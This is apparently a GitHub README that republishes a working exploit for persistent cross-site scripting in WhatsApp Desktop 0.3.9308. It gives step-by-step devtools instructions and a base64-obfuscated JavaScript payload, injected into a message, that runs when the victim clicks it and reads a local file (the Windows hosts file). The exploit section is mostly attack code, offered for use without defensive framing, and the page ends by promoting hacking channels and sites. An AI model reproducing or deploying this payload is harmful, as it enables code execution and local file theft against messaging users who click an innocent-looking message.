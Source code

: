 # ![Pic](https://raw.githubusercontent.com/attakercyebr/Whatsapp-Desktop-session-hijacking-/main/1.jpg) 


## Description:
----------------------
- // Title: WhatsApp Desktop 0.3.9308 - Persistent Cross-Site Scripting

- // Date: 2020-01-21

- // Vendor Homepage: https://www.whatsapp.com

- // Software Link: https://web.whatsapp.com/desktop/windows/release/x64/WhatsAppSetup.exe

- // Software Link: https://web.whatsapp.com/desktop/mac/files/WhatsApp.dmg

- // Version: 0.3.9308

- // Tested On: Mac OS, Windows, iPhone

## Get a license
----------------------
- 🎁 Totally free for all channel members.


## how to work :
----------------------
- // step 1: open WhatsApp Web and enter a conversation (Will only work on WhatsApp Web source code as compiled with version 0.3.9308)

- // step 2: open devtools and search in all files "t=e.id"

- // step 3: after prettifying, set a breakpoint at the line where "t = e.id" can be found

- // step 4: paste "https://example.com" in the text box and hit "Enter"

- // step 5: when the code stops at the breakpoint, paste the following exploit code in the console and hit "Enter"

- // step 6: press F8 in order for the execution to continue

- // result: a message should be sent to the victim that once is clicked will execute the payload above

## Code
----------------------

```javascript
var payload = `(async function() {
alert(navigator.userAgent);
(async function() {
// read "file:///C:/windows/system32/drivers/etc/hosts" content
const r = await fetch(atob('ZmlsZTovLy9DOi93aW5kb3dzL3N5c3RlbTMyL2RyaXZlcnMvZXRjL2hvc3Rz'));
const t = await r.text();
alert(t);
}())
}())`;

payload = `javascript:"https://example.com";eval(atob("${btoa(payload)}"))`;

e.__x_matchedText = payload;

e.__x_body = `
Innocent text

${payload}

More Innocent text
`;

```

## video:
----------------------
- # ![video](https://drive.google.com/file/d/1b9Nk47asoylREdLHGsqO3WlmHxrlkCvg/view) 


## Visit the following channels and sites for more training and tools:
----------------------
- 🔞 https://m4nifest0.com
- 🔞 https://m4nifest0.group
- 🔞 https://m4nifest0.shop
- 🔞 https://t.me/M4nifest0

----------------------

<h2>
<p align="center">	
</a>&nbsp;&nbsp;&nbsp;&nbsp;
	<a href="https://t.me/M4nifest0">
		<img src="https://img.shields.io/badge/Telegram-%23000000.svg?&style=for-the-badge&logo=Telegram&logoColor=white" />
	</a>&nbsp;&nbsp;&nbsp;&nbsp;
	<a href="https://twitter.com/_M4nifest0_">
		<img src="https://img.shields.io/badge/twitter-%231DA1F2.svg?&style=for-the-badge&logo=twitter&logoColor=white" />
	</a>&nbsp;&nbsp;&nbsp;&nbsp;
	<a href="https://m4nifest0.com">
		<img src="https://img.shields.io/badge/WebSite-%234A154B.svg?&style=for-the-badge&logo=slack&logoColor=white" />
	</a>&nbsp;&nbsp;&nbsp;&nbsp;
</p>
